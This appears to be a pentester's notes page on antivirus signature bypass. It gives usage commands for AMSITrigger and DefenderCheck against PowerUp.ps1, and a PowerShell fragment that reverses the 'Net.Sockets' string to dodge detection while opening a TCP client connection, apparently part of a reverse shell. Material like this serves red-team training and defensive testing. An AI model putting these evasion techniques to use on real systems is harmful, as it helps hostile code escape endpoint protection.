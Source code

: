 # AV Signatures Bypass

## **AMSITrigger**

[https://github.com/RythmStick/AMSITrigger/releases](https://github.com/RythmStick/AMSITrigger/releases)

### usage

change name for each script first

```powershell
AmsiTrigger_x64.exe -i PowerUp.ps1 
```

![image.png](<../../../../.gitbook/assets/image (40).png>)

<figure><img src="../../../../.gitbook/assets/image 1 (22).png" alt=""><figcaption></figcaption></figure>

or example for bypassing

```powershell
# Reverse the "Net.Sockets" string

$String = "stekcoS.teN"
$class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
if ($Reverse)
{
 $client = New-Object System.$class.TCPClient($IPAddress,$Port)
}
```

***

## **Defender Checker**

Identify code and strings from a binary / file that Windows Defender may flag

https://github.com/matterpreter/DefenderCheck/tree/masterذ

```powershell
DefenderCheck.exe PowerUp.ps1 
```

